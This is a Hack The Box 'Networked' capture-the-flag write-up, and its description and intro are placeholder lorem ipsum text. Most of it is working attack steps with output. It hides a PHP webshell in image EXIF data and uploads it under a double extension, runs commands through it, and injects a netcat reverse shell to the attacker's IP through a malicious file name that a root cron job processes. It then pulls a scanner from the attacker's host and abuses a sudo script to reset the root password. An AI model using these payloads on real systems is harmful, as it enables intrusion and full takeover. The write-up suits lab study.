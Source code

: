 ```yaml
---
title: Networked - Hack The Box
author: "0xPThree"
description: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2019-10-20
image: images/networked_logo.png
categories: [hackthebox, ]
format: html
editor: visual
jupyter: python3
toc: true
---
```


![](images/networked_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝


1. nmap -Pn -sC -sV -O 10.10.10.146
   Open ports: 22, 80, 443

2. dirb http://10.10.10.146
   Detects /backup/ download .tar and extract the .php-files

3. Upload a file http://10.10.10.146/upload.php
   Upload.php shows;
   - the uploaded file will change name (ip_address.png ex. 10_10_14_28.png)
   - must be .jpg, .jpeg, .png or .gif
   - size must be smaller than 60000 byte
   - successful upload will be moved to /var/www/html/uploads/ (http://10.10.10.146/uploads/10_10_14_28.png)

   Lib.php shows:
   - mime type will be double checked to pervent mime-switching through burp

   Create a webshell using exiftoool:
   exiftool -DocumentName="<h1>Player Three Has Entered The Game
<?php if(isset(\$_REQUEST['cmd'])){echo '<pre>';\$cmd = (\$_REQUEST['cmd']);system(\$cmd);echo '</pre>';} __halt_compiler();?></h1>" image.png
   Rename the file to .php.png to force php execution: mv image.png webshell.php.png

4. Enum box through webshell
   http://10.10.10.146/uploads/10_10_14_15.php.png?cmd=whoami   (apache)
   http://10.10.10.146/uploads/10_10_14_15.php.png?cmd=ls%20-al%20/home/guly/

   total 28
   drwxr-xr-x. 2 guly guly 159 Jul  9 13:40 .
   drwxr-xr-x. 3 root root  18 Jul  2 13:27 ..
   lrwxrwxrwx. 1 root root   9 Jul  2 13:35 .bash_history -> /dev/null
   -rw-r--r--. 1 guly guly  18 Oct 30  2018 .bash_logout
   -rw-r--r--. 1 guly guly 193 Oct 30  2018 .bash_profile
   -rw-r--r--. 1 guly guly 231 Oct 30  2018 .bashrc
   -rw-------  1 guly guly 639 Jul  9 13:40 .viminfo
   -r--r--r--. 1 root root 782 Oct 30  2018 check_attack.php
   -rw-r--r--  1 root root  44 Oct 30  2018 crontab.guly
   -r--------. 1 guly guly  33 Oct 30  2018 user.txt

   We don't have priv to read user.txt yet, need to escalate.

5. Exploiting check_attack.php
   check_attack.php has a cronjob that will remove new files from /var/www/html/uploads, using the syntax "rm -f /var/www/html/uploads/".
   Exploit this by creating reverse bash shell starting the name with ;
   (touch /var/www/html/uploads/";nc -e /bin/sh 10.10.14.15 4488")
   http://10.10.10.146/uploads/10_10_14_15.php.png?cmd=touch%20/var/www/html/uploads/%22;nc%20-e%20/bin/sh%2010.10.14.15%204488%22

6. Start netcat and wait for the cronjob to trigger your reverse shell
   root@p3:/opt/htb/machines/networked# nc -lnvp 4488
   listening on [any] 4488 ...
   connect to [10.10.14.15] from (UNKNOWN) [10.10.10.146] 36284

   ls
   check_attack.php
   crontab.guly
   user.txt

   whoami
   guly

   cat user.txt
   526****************

██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. Upgrade rev shell (tty0) to a better one for ease of use and better information.
    python -c 'import pty;pty.spawn("/bin/bash")'
    ctrl + z
    stty raw -echo
    fg
    <ENTER>
    <ENTER>
    export TERM=xterm

2. Download lse.sh to the victim and scan for vulns. wget is unable so we use curl instead
    root@p3:/opt/scanners/linux# python3 -m http.server 8080
    Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...

    [guly@networked shm]$ curl http://10.10.14.15:8080/lse.sh --output lse.sh
      % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                     Dload  Upload   Total   Spent    Left  Speed
    100 31737  100 31737    0     0   292k      0 --:--:-- --:--:-- --:--:--  295k
    [guly@networked shm]$ ls -al
    total 32
    drwxrwxrwt  2 root root    60 Sep 20 14:54 .
    drwxr-xr-x 20 root root  3200 Sep 19 21:01 ..
    -rw-rw-r--  1 guly guly 31737 Sep 20 14:54 lse.sh

3. Give +x and scan the system
    chmod +x lse.sh
    ./lse.sh -l1

4. The script changename.sh is executable by gully and has root privs.
    User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh

5. Looking in the script, we can see that it only accepts input according to the regexp:
    regexp="^[a-zA-Z0-9_\ /-]+$"

      Looking at the regexp we are only allowed to input a-z, 0-9, "-" and " ".
      Use https://regex101.com/ to test acceptable inputs

6. Run the script and change the root password.
    [guly@networked sbin]$ sudo ./changename.sh
    interface NAME:
    sudo passwd
    interface PROXY_METHOD:
    asd
    interface BROWSER_ONLY:
    asd
    interface BOOTPROTO:
    asd
    Changing password for user root.
    New password:
    Retype new password:
    passwd: all authentication tokens updated successfully.
    Changing password for user root.

    [guly@networked sbin]$ su
    Password:

    [root@networked sbin]# whoami
    root

    [root@networked sbin]# cat /root/root.txt
    0a8*****************************
